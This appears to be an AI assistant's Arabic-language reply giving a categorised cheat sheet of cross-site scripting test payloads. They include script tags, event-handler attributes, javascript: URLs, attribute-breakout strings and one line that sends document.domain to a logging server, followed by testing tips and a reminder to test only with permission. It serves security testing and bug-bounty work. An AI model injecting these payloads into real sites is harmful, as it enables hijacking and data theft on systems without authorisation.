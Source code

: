 

1. وسوم <script>:
- <script>alert('XSS')</script>: يُنفذ تنبيه يعرض "XSS".
- <script>alert(document.domain)</script>: يعرض النطاق (مثل example.com).
- <script>alert(window.origin)</script>: يعرض أصل الصفحة (مثل https://example.com).
- <script>console.log('XSS')</script>: يسجل "XSS" في وحدة التحكم.
- <script>debugger;</script>: يوقف التنفيذ في أدوات المطورين.
- <script>alert(1)</script>: يُنفذ تنبيه رقمي لتجنب فلاتر النصوص.
- <script>confirm('XSS')</script>: يفتح نافذة تأكيد.
- <script>prompt('أدخل بيانات:','XSS')</script>: يفتح نافذة إدخال.

2. سمات الأحداث:
- <img src=x onerror=alert('XSS')>: يُنفذ التنبيه عند فشل تحميل الصورة.
- <img src=x onerror=alert(document.domain)>: يعرض النطاق عند فشل الصورة.
- <img src=x onerror=console.log('XSS')>: يسجل "XSS" عند فشل الصورة.
- <body onload=alert('XSS')>: يُنفذ التنبيه عند تحميل الصفحة.
- <input autofocus onfocus=alert(1)>: يُنفذ التنبيه عند تركيز الحقل.
- <svg onload=alert('XSS')>: يُنفذ التنبيه عند تحميل SVG.
- <video poster=x onerror=alert(1)>: يُنفذ التنبيه عند فشل صورة الفيديو.
- <a href="javascript:alert('XSS')">اضغط هنا</a>: يُنفذ التنبيه عند النقر.
- <div onclick=alert('XSS')>اضغط هنا</div>: يُنفذ التنبيه عند النقر.
- <iframe src=javascript:alert('XSS')></iframe>: يُنفذ التنبيه عبر iframe.

3. حقن بدون تنبيهات:
- <script>console.log('XSS')</script>: يسجل "XSS" في وحدة التحكم.
- <script>console.error('XSS: ' + document.domain)</script>: يسجل خطأ مع النطاق.
- <script>throw new Error('XSS')</script>: يُطلق خطأ في وحدة التحكم.
- <script>document.title='XSS'</script>: يغير عنوان الصفحة إلى "XSS".
- <script>document.body.style.background='red'</script>: يغير لون الخلفية إلى الأحمر.
- <script>new Image().src='http://localhost/log?c='+document.domain</script>: يرسل النطاق إلى خادم.

4. اختبار سياقات الإدخال:
- "><script>alert('XSS')</script>: يخرج من سمة HTML ويُنفذ الشيفرة.
- onerror=alert(1): يُنفذ كسمة حدث.
- " autofocus onfocus=alert(1)//: يخرج من قيمة إدخال ويُنفذ عند التركيز.
- javascript:alert(1)//: يُنفذ كعنوان JavaScript.



---

**نصائح إضافية**:
- **اختبار نقاط إدخال متعددة**: جرب معلمات URL، حقول النماذج، الرؤوس (مثل User-Agent)، والمدخلات المخفية.
- **تأكيد التنفيذ**: ابحث عن تنبيهات، تسجيلات في وحدة التحكم، توقف التصحيح، أو تغييرات بصرية.
- **التحقق من النطاق**: استخدم `document.domain` أو `window.origin` لمعرفة ما إذا كان الـ XSS في بيئة معزولة.
- **الانتقال إلى التعقيد**: إذا فشلت الحقن الأساسية، انتقل إلى الحقن المعقدة (مثل التشفير أو تقسيم الكلمات).
- **الأدوات**: استخدم Burp Suite لاعتراض الطلبات وأدوات المطورين (F12) لمراقبة وحدة التحكم والـ DOM.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء).

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب، أو التركيز على سياق معين (مثل XSS المنعكس أو المخزن)، أخبرني وسأقدم ردًا مخصصًا!